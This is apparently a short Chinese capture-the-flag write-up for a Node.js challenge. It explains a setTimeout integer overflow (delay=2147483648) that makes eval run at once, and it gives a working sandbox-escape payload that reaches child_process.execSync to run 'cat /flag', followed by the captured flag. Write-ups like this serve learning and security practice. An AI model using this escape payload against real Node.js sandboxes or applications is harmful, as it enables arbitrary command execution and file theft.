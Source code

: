 主要就是要看懂代码，大概意思就是：

我们传入一个delay和原来的delay比较，取最大值，然后作为形参传给timeout这个函数，如果代码执行的时间超过了这个值，就执行eval；

问题就出在这个settimeout函数上。

 

#### interger超过2147483647可以使int溢出

这里借用[Guoke](https://guokeya.github.io/post/a45x0caHd/)师傅的一张图：

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120171441.png)

 

#### 沙箱逃逸，原型链污染

https://xz.aliyun.com/t/7842

GET传入：

```
?delay=2147483648
```

POST：

```
e=clearImmediate.constructor("return process;")().mainModule.require("child_process").execSync("cat /flag").toString()
```

得到flag；

flag{e8e4454d-c127-4caf-89e2-86e266c83aa1}